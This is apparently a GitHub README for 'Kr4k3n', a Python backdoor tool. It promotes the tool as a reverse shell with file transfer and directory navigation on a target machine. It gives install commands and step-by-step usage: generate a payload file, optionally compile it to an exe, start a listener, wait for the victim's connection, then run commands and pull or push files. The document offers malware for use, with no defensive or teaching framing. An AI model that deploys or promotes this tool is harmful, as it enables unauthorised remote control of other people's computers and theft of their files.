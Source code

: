 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

![download(1)](https://user-images.githubusercontent.com/56045160/115126114-d60eb480-9f9a-11eb-909d-df919b9a970c.gif)

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. Firstly, you can have access to target shell. Secondly, you can make file transfers between your and target machines. Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git clone git@github.com:YanOScompany/kr4k3n
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

